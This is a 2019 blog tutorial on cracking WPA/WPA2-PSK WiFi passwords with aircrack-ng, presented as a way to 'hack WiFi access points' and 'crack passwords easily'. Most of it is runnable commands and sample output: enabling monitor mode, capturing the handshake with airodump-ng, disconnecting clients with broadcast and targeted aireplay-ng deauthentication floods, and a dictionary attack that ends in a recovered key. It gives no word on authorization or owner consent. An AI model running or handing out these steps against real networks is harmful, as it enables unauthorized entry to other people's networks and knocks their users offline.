 +++ 
date = 2019-06-27T23:51:23+05:30
title = "Hacking wireless access points"
description = "If you want to know how to hack WiFi access points — just read this step by step aircrack-ng tutorial, run the verified commands and crack passwords easily."
slug = ""
authors = []
tags = ["aircrack-ng", "wifi", "security"]
categories = []
externalLink = ""
series = []
+++

If you want to know how to hack WiFi access points -- just read this step by step `aircrack-ng` tutorial, run the verified commands and crack passwords easily.

With the help a these commands you will be able to hack WiFi AP (access points) that use WPA/WPA2-PSK (pre-shared key) encryption.

The basis of this method of hacking WiFi lies in capturing of the WPA/WPA2 authentication handshake and then cracking the PSK using 'aircrack-ng'.

# Section 1, Aircrack-ng: Download and Install

---

### How to hack Wireless Access Points -- the action plan:

1.  Download and install the latest `aircrack-ng`
2.  Start the wireless interface in monitor mode using the `airmon-ng`
3.  Start the `airodump-ng` on AP channel with filter for BSSID to collect authentication handshake
4.  [Optional] Use the `aireplay-ng` to deauthenticate the wireless client
5.  Run the `aircrack-ng` to hack the WiFi password by cracking the authentication handshake

### Install the required dependencies:

```console
$ sudo apt-get install build-essential libssl-dev libnl-3-dev pkg-config libnl-genl-3-dev
```

### Download and install the latest `aircrack-ng` ([current version](http://www.aircrack-ng.org/doku.php?id=install_aircrack#current_version)):

```console
$ wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz  -O - | tar -xz
$ cd aircrack-ng-1.2-rc4
$ sudo make
$ sudo make install
```

### Ensure that you have installed the latest version of `aircrack-ng`:

```console
$ aircrack-ng --help

  Aircrack-ng 1.2 rc4 - (C) 2006-2015 Thomas d'Otreppe
  http://www.aircrack-ng.org
```

# Section 2, Airmon-ng: Monitor Mode

---

Now it is required to start the wireless interface in monitor mode.
Monitor mode allows a computer with a wireless network interface to monitor all traffic received from the wireless network.
What is especially important for us -- monitor mode allows packets to be captured without having to associate with an access point.
Find and stop all the processes that use the wireless interface and may cause troubles:

```console
$ sudo airmon-ng check kill
```

### Start the wireless interface in monitor mode:

```console
$ sudo airmon-ng start wlan0
Interface	Chipset		Driver

wlan0		Intel 6235	iwlwifi - [phy0]
				(monitor mode enabled on mon0)
```

In the example above the `airmon-ng` has created a new wireless interface called `mon0` and enabled on it monitor mode.
So the correct interface name to use in the next parts of this tutorial is the `mon0`.

# Section 3, Airodump-ng: Authentication Handshake

---

Now, when our wireless adapter is in monitor mode, we have a capability to see all the wireless traffic that passes by in the air.
This can be done with the `airodump-ng` command:

```console
$ sudo airodump-ng mon0
```

All of the visible APs are listed in the upper part of the screen and the clients are listed in the lower part of the screen:

```console
CH 1 ][ Elapsed: 20 s ][ 2014-05-29 12:46

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

00:11:22:33:44:55  -48      212     1536   66   1  54e  WPA2 CCMP   PSK  CrackMe
66:77:88:99:00:11  -64      134     345   34   1  54e  WPA2 CCMP   PSK  SomeAP

BSSID              STATION            PWR   Rate    Lost    Frames  Probe

00:11:22:33:44:55  AA:BB:CC:DD:EE:FF  -44    0 - 1    114       56
00:11:22:33:44:55  GG:HH:II:JJ:KK:LL  -78    0 - 1      0       1
66:77:88:99:00:11  MM:NN:OO:PP:QQ:RR  -78    2 - 32      0       1
```

Start the `airodump-ng` on AP channel with the filter for BSSID to collect the authentication handshake for the access point we are interested in:

```console
$ sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w WPAcrack mon0 --ignore-negative-one
```

| Option                  | Description                                                                   |
| ----------------------- | ----------------------------------------------------------------------------- |
| `-c`                    | The channel for the wireless network                                          |
| `--bssid`               | The MAC address of the access point                                           |
| `-w`                    | The file name prefix for the file which will contain authentication handshake |
| `mon0`                  | The wireless interface                                                        |
| `--ignore-negative-one` | Fixes the 'fixed channel : -1' error message                                  |
|                         |                                                                               |

Now wait until `airodump-ng` captures a handshake.
If you want to speed up this process -- go to the step #4 in section 1 and try to force wireless client reauthentication.
After some time you should see the `WPA handshake: 00:11:22:33:44:55` in the top right-hand corner of the screen.
This means that the `airodump-ng` has successfully captured the handshake:

```console
CH 1 ][ Elapsed: 20 s ][ 2014-05-29 12:46  WPA handshake: 00:11:22:33:44:55

BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

00:11:22:33:44:55  -48      212     1536   66   1  54e  WPA2 CCMP   PSK  CrackMe

BSSID              STATION            PWR   Rate    Lost    Frames  Probe

00:11:22:33:44:55  AA:BB:CC:DD:EE:FF  -44    0 - 1    114       56
```

# Section 4, Aireplay-ng: Deauthenticate Client

---

If you can't wait till `airodump-ng` captures a handshake, you can send a message to the wireless client saying that it is no longer associated with the AP.
The wireless client will then hopefully reauthenticate with the AP and we'll capture the authentication handshake.

### Send deauth to broadcast:

```console
$ sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 mon0 --ignore-negative-one
```

### Send directed deauth (attack is more effective when it is targeted):

```console
$ sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF mon0 --ignore-negative-one
```

| Option                  | Description                                                             |
| ----------------------- | ----------------------------------------------------------------------- |
| `--deauth 100`          | The number of de-authenticate frames you want to send (0 for unlimited) |
| `-a`                    | The MAC address of the access point                                     |
| `-c`                    | The MAC address of the client                                           |
| `mon0`                  | The wireless interface                                                  |
| `--ignore-negative-one` | Fixes the 'fixed channel : -1' error message                            |

# Section 5, Aircrack-ng: Hack WiFi Password

---

Unfortunately there is no way except brute force to break WPA/WPA2-PSK encryption.
To hack WiFi password, you need a password dictionary.
And remember that this type of attack is only as good as your password dictionary.
You can download some dictionaries from [here](https://wiki.skullsecurity.org/Passwords).

### Crack the WPA/WPA2-PSK with the following command:

```console
$ aircrack-ng -w wordlist.dic -b 00:11:22:33:44:55 WPAcrack.cap
```

| Option         | Description                                                     |
| -------------- | --------------------------------------------------------------- |
| `-w`           | The name of the dictionary file                                 |
| `-b`           | The MAC address of the access point                             |
| `WPAcrack.cap` | The name of the file that contains the authentication handshake |

                         Aircrack-ng 1.2 beta3 r2393

                   [00:08:11] 548872 keys tested (1425.24 k/s)

                           KEY FOUND! [ 987654321 ]

      Master Key    : 5C 9D 3F B6 24 3B 3E 0F F7 C2 51 27 D4 D3 0E 97
                       CB F0 4A 28 00 93 4A 8E DD 04 77 A3 A1 7D 15 D5

      Transient Key : 3A 3E 27 5E 86 C3 01 A8 91 5A 2D 7C 97 71 D2 F8
                       AA 03 85 99 5C BF A7 32 5B 2F CD 93 C0 5B B5 F6
                       DB A3 C7 43 62 F4 11 34 C6 DA BA 38 29 72 4D B9
                       A3 11 47 A6 8F 90 63 46 1B 03 89 72 79 99 21 B3

      EAPOL HMAC    : 9F B5 F4 B9 3C 8B EA DF A0 3E F4 D4 9D F5 16 62

</div>
